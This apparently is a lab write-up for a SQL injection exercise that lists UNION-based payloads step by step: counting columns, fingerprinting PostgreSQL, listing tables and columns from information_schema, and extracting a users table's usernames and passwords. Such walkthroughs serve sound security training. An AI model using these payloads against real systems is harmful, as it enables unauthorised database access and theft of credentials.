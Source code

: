 # Listing the database contents on non-Oracle databases

`/filter?category=Gifts'+UNION+SELECT+NULL--`: Internal Server Error

`/filter?category=Gifts'+UNION+SELECT+NULL,+NULL--`: Ok (2 columns)

`/filter?category=Gifts'+UNION+SELECT+@@version,+NULL--`: Internal Server Error (not MySQL or MSSQL)

`/filter?category=Gifts'+UNION+SELECT+v$version,+NULL--`: Internal Server Error (not Oracle)

`/filter?category=Gifts'+UNION+SELECT+version(),+NULL--`: Ok (PostgreSQL)
![Querying version](sqli-05-01.png)

Get tables list:

`/filter?category=Gifts'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

Users table name is `users_zkpcnl` (suffix is random).

Get users table columns list:

`/filter?category=Gifts'+UNION+SELECT+column_name,+data_type+FROM+information_schema.columns+WHERE+table_name='users_zkpcnl'--`

Users table has two columns: `username_zoeoqs` and `password_etchpd` (suffix is random).

Get users with passwords:

`/filter?category=Gifts'+UNION+SELECT+username_zoeoqs,+password_etchpd+FROM+users_zkpcnl--`
![Querying version](sqli-05-02.png)

Solved.
